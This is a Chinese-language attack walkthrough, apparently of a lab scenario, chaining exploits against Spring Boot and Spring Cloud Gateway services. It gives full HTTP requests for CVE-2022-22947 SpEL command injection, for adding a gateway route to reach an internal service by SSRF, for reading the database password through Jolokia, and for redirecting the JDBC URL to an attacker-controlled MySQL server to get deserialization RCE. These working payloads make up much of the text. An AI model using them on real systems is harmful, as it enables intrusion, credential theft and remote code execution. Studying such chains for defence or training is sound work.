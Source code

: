 ## 概述

外网有两个服务，第一个是Springboot写的web服务，`/actuator`路由加了Springboot Security限制了内网IP白名单，攻击者没办法直接访问，只能访问正常的业务

第二个是SpringCloud Gateway，也有`/actuator`路由，而且是未授权访问。可以通过动态添加转发路由，从而对第一个web服务进行SSRF

通过SSRF第一个web服务的`/actuator`，一可以打MySQL JDBC 反序列化（不单单是这个，还有其他手法RCE）直接RCE，二可以打`/actuator/jolokia`，造成数据库密码泄露
RCE之后可以直接拿数据库密码连接MySQL

![](../images/oasystem.png)

## API unauth

使用APIKit扫描Gateway服务的API接口，得到`/actuator`未授权访问。使用CVE-2022-22947，进行RCE：

```http
POST /actuator/gateway/routes/test1 HTTP/1.1
Host: localhost:8000
Content-Length: 427
Content-Type: application/json
Connection: close

{
    "id": "test1",
    "filters": [
        {
            "name": "AddResponseHeader",
            "args": {
                "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}",
                "name": "cmd"
            }
        }
    ],
    "uri": "http://aaa.com",
    "order": 2
}

```

得到返回`HTTP/1.1 201 Created`之后，POST访问`/actuator/gateway/refresh`再GET访问`/actuator/gateway/routes/test1`可以得到命令执行的回显。



## tamper routes &&  SSRF

使用SPEL表达式注入，读取`/etc/hosts`文件发现有这么一行：

```
oasystem    172.192.1.10
```

于是我们知道了第一个服务的hosts以及内网IP地址，可以动态修改Gateway的路由来进行SSRF：

```http
POST /actuator/gateway/routes/oasystem HTTP/1.1
Host: localhost:8000
Connection: close
Content-Type: application/json
Content-Length: 404

{
    "id": "oasystem",
    "uri": "http://oasystem:8080",
    "filters": [
        {
            "name": "PreserveHostHeader",
            "args": {
                "_genkey_0": ""
            }
        }
    ],
    "predicates": [
        {
            "name": "Path",
            "args": {
                "_genkey_0": "/oasystem/**"
            }
        }
    ],
    "order": 0
}
```

再POST `/actuator/gateway/refresh`，进行路由配置的刷新，之后就可以在`/actuator/gateway/routes/`看到我们添加的路由了：

![](../images/oasystem_2.png)

访问Gateway服务的`/oasystem/actuator`路由即可绕过SpringSecurity的IP限制

## MySQL passwd leak

获取env，寻找`*`加密的密码

![](../images/oasystem_3.png)

获取*加密的密码

```http
POST /oasystem/actuator/jolokia HTTP/1.1
Content-Type: application/json
Host: localhost:8000
Connection: close
Content-Length: 205

{
    "mbean": "org.springframework.boot:name=SpringApplication,type=Admin",
    "operation": "getProperty",
    "type": "EXEC",
    "arguments": [
        "spring.datasource.password"
    ]
}
```



## MySQL JDBC deserialization to RCE

修改配置，指向恶意MySQL服务器

```http
POST /oasystem/actuator/env HTTP/1.1
Content-Type: application/json
Host: localhost:8000
Content-Length: 215

{"name":"spring.datasource.url","value":"jdbc:mysql://IP:PORT/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"}
```

刷新配置

```http
POST /oasystem/actuator/refresh HTTP/1.1
Host: localhost:8000
Content-Length: 0


```

用户操作，触发SQL查询，RCE。

更多攻击手法请见：https://github.com/LandGrey/SpringBootVulExploit

